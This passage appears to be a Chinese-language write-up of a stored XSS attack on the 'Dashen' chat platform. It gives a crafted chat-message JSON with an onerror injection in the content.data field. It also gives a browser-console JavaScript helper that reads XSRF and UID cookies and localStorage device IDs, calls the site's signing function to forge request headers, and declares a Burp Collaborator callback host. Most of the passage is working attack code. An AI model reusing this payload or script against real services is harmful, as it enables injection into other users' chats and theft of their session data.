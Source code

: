     由此构造最终的xss payload，其中serverID，channelID，squareID分别是频道相关的id号，表示需要把消息发送给哪个聊天群。fromUid是消息发送者的id，content.data字段便是xss的注入点位, contentType务必填写IMAGE_TEXT_TEMPLATE类型：

    { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "<img src=x onerror=console.log(1111122222233)>", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }
    
    为简化操作，写一个js文件，实现自动发帖，将上述payload通过本js脚本发送，请在大神网页的Console中执行。

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        const myFetch = async (url, headers) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: headers,
                credentials: 'include'
            })
            let res = await data.json();
            return res
        }
        // 构造GET发送请求
        const setHeaderDs = (payload) => {
            var GL_X_XSRF_TOKEN = getCookieValue('GL-XSRF-TOKEN')
            var GL_Uid = getCookieValue('GOD_UUID')
            var checkres = moduleX['0'].gen_sign(payload)
            var checkjson = JSON.parse(checkres)
            var GL_CheckSum = checkjson['sign']
            var GL_Nonce = checkjson['timestamp']
            var GL_ClientType = 61
            var GL_DeviceId = localStorage.getItem('ns-client-id')
            var headers = {
                'GL-CheckSum': GL_CheckSum,
                'GL-Nonce': GL_Nonce,
                'GL-Uid': GL_Uid,
                'GL-DeviceId': GL_DeviceId,
                'GL-ClientType': GL_ClientType,
                'GL-X-XSRF-TOKEN': GL_X_XSRF_TOKEN,
                'Content-Type': 'application/json;charset=UTF-8'
            }
            return headers
        }

        // 构造POST发送请求
        const myPostFetch = async (url, headers, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: headers,
                credentials: 'include',
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }
